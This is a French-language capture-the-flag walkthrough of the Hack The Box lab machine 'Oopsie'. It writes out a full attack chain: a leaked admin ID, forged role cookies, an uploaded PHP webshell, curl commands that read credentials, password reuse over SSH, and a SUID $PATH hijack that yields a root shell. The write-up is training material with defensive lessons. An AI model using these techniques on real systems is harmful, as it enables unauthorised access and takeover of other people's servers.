

[⬅ Retour à Starting Point](../README.md) · [🏠 Accueil du repo](../../../README.md)

# Machine 11 — OOPSIE

**Contrôle d'accès cassé + détournement SUID via \$PATH — Ports 22, 80**

## Concept

Chaîne de petites failles web (répertoire caché, contrôle d'accès basé
sur un simple cookie, fuite d'ID) menant à un upload de fichier
arbitraire, puis escalade via un binaire SUID vulnérable au détournement
de \$PATH.

## Méthodologie — commandes complètes

> nmap -sC -sV 10.129.x.x
>
> \# → 22/tcp SSH, 80/tcp Apache (site "MegaCorp Automotive")
>
> \# Spider passif du site avec Burp (proxy 127.0.0.1:8080, Intercept
> désactivé)
>
> \# Target → Site map → découverte de /cdn-cgi/login
>
> \# http://10.129.x.x/cdn-cgi/login → "Login as Guest"
>
> \# Page Uploads visible mais : "This action require super admin
> rights"
>
> \# Fuite d'ID dans l'URL :
>
> \# admin.php?content=accounts&id=1 → révèle l'Access ID admin (ex:
> 34322)
>
> \# DevTools → Storage → Cookies :
>
> \# role: guest → admin
>
> \# user: \<son id\> → 34322
>
> \# Recharger la page Uploads → accès débloqué
>
> echo '\<?php system(\$\_GET\["cmd"\]); ?\>' \> shell.php
>
> \# Upload via le formulaire de la page Uploads
>
> gobuster dir --url http://10.129.x.x/ \\
>
> --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
> -x php
>
> \# → confirme /uploads/
>
> curl "http://10.129.x.x/uploads/shell.php?cmd=id"
>
> \# → uid=33(www-data)
>
> curl
> "http://10.129.x.x/uploads/shell.php?cmd=cat+/var/www/html/cdn-cgi/login/db.php"
>
> \# → mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage')
>
> ssh robert@10.129.x.x \# password: M3g4C0rpUs3r!
>
> cat user.txt
>
> sudo -l \# rien
>
> id \# robert appartient au groupe "bugtracker"
>
> find / -group bugtracker 2\>/dev/null
>
> \# → /usr/bin/bugtracker (SUID root)
>
> ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
>
> \# -rwsr-xr-- root bugtracker → exécuté avec les droits root
>
> \# Le programme appelle "cat" sans chemin absolu → PATH hijack
> possible
>
> cd /tmp
>
> echo '/bin/sh' \> cat
>
> chmod +x cat
>
> export PATH=/tmp:\$PATH
>
> bugtracker
>
> \# Fournir un ID de bug quelconque → déclenche l'appel interne à "cat"
>
> \# → exécute /tmp/cat = /bin/sh → shell ROOT obtenu
>
> whoami \# root
>
> cat /root/root.txt

Captures d'écran

*Modification du cookie de session dans les DevTools : role=admin,
user=34322.*

## Points clés

- Un spider passif (Burp) révèle des chemins jamais liés visiblement sur
  le site — toujours cartographier avant de bruteforcer aveuglément.

- Un contrôle d'accès basé uniquement sur un cookie client est un
  anti-pattern classique : sans revérification côté serveur, modifier le
  cookie suffit à usurper un rôle.

- Une fuite d'ID auto-incrémenté semble mineure isolément, mais devient
  critique combinée à la faille de contrôle d'accès.

- Un webshell simple (system(\$\_GET\['cmd'\])) évite les soucis de
  reverse shell (ports sortants filtrés, timeouts).

- La réutilisation d'un mot de passe (DB → système) est une faille
  fréquente à toujours vérifier après un foothold web.

- Un binaire SUID root appelant un exécutable externe sans chemin absolu
  (cat au lieu de /bin/cat) permet un détournement via \$PATH.

## Leçon retenue

*Aucune des failles individuelles n'est critique en soi. C'est leur
chaînage qui permet de passer d'un visiteur anonyme à un accès root
complet — illustration parfaite du principe de defense in depth.*

---

[⬅ Précédent : Vaccine](10-vaccine.md) · [⬆ Index Starting Point](../README.md) · [Suivant : Archetype ➡](12-archetype.md)
